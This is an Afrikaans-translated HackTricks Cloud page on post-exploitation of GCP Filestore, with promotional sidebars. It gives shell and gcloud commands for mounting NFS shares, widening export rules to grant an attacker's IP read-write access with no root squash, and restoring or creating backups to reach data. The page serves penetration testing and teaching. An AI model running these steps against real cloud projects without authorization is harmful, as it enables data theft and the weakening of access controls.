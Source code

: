 # GCP - Filestore Na-Exploitasie



<details>

<summary><strong>Leer AWS-hacking van nul tot held met</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Ander maniere om HackTricks te ondersteun:

* As jy jou **maatskappy geadverteer wil sien in HackTricks** of **HackTricks in PDF wil aflaai**, kyk na die [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Kry die [**amptelike PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ontdek [**The PEASS Family**](https://opensea.io/collection/the-peass-family), ons versameling eksklusiewe [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Sluit aan by die** 💬 [**Discord-groep**](https://discord.gg/hRep4RUj7f) of die [**telegram-groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Deel jou hacking-truuks deur PR's in te dien by die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github-repos.

</details>

## Filestore

Vir meer inligting oor Filestore, kyk:

{% content-ref url="../gcp-services/gcp-filestore-enum.md" %}
[gcp-filestore-enum.md](../gcp-services/gcp-filestore-enum.md)
{% endcontent-ref %}

### Monteer Filestore

'n Gedeelde lêersisteem **kan sensitiewe inligting bevat** wat interessant kan wees vanuit 'n aanvaller se perspektief. Met toegang tot die Filestore is dit moontlik om dit **te monteer**:

{% code overflow="wrap" %}
```bash
sudo apt-get update
sudo apt-get install nfs-common
# Check the share name
showmount -e <IP>
# Mount the share
mkdir /mnt/fs
sudo mount [FILESTORE_IP]:/[FILE_SHARE_NAME] /mnt/fs
```
{% endcode %}

Om die IP-adres van 'n filestore-instansie te vind, kyk na die enumerasie-afdeling van die bladsy:

{% content-ref url="../gcp-services/gcp-filestore-enum.md" %}
[gcp-filestore-enum.md](../gcp-services/gcp-filestore-enum.md)
{% endcontent-ref %}

### Verwyder Beperkings en kry ekstra toestemmings

As die aanvaller nie in 'n IP-adres met toegang tot die deel het nie, maar jy het genoeg toestemmings om dit te wysig, is dit moontlik om die beperkings of toegang daaroor te verwyder. Dit is ook moontlik om meer voorregte oor jou IP-adres te verleen om administratiewe toegang tot die deel te hê:
```bash
gcloud filestore instances update nfstest \
--zone=<exact-zone> \
--flags-file=nfs.json

# Contents of nfs.json
{
"--file-share":
{
"capacity": "1024",
"name": "<share-name>",
"nfs-export-options": [
{
"access-mode": "READ_WRITE",
"ip-ranges": [
"<your-ip-private-address>/32"
],
"squash-mode": "NO_ROOT_SQUASH",
"anon_uid": 1003,
"anon_gid": 1003
}
]
}
}
```
### Herstel 'n rugsteun

As daar 'n rugsteun is, is dit moontlik om dit in 'n bestaande of nuwe instansie te **herstel**, sodat die **inligting toeganklik** word:
```bash
# Create a new filestore if you don't want to modify the old one
gcloud filestore instances create <new-instance-name> \
--zone=<zone> \
--tier=STANDARD \
--file-share=name=vol1,capacity=1TB \
--network=name=default,reserved-ip-range=10.0.0.0/29

# Restore a backups in a new instance
gcloud filestore instances restore <new-instance-name> \
--zone=<zone> \
--file-share=<instance-file-share-name> \
--source-backup=<backup-name> \
--source-backup-region=<backup-region>

# Follow the previous section commands to mount it
```
### Skep 'n rugsteun en herstel dit

As jy **nie toegang het tot 'n deel nie en dit nie wil wysig nie**, is dit moontlik om 'n **rugsteun** daarvan te **skep** en dit soos voorheen **te herstel**:

{% code overflow="wrap" %}
```bash
# Create share backup
gcloud filestore backups create <back-name> \
--region=<region> \
--instance=<instance-name> \
--instance-zone=<instance-zone> \
--file-share=<share-name>

# Follow the previous section commands to restore it and mount it
```
{% endcode %}

<details>

<summary><strong>Leer AWS-hacking van nul tot held met</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Ander maniere om HackTricks te ondersteun:

* As jy wil sien dat jou **maatskappy geadverteer word in HackTricks** of **HackTricks aflaai in PDF-formaat**, kyk na die [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Kry die [**amptelike PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ontdek [**The PEASS Family**](https://opensea.io/collection/the-peass-family), ons versameling eksklusiewe [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Sluit aan by die** 💬 [**Discord-groep**](https://discord.gg/hRep4RUj7f) of die [**telegram-groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Deel jou hacking-truuks deur PR's in te dien by die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github-opslag.

</details>
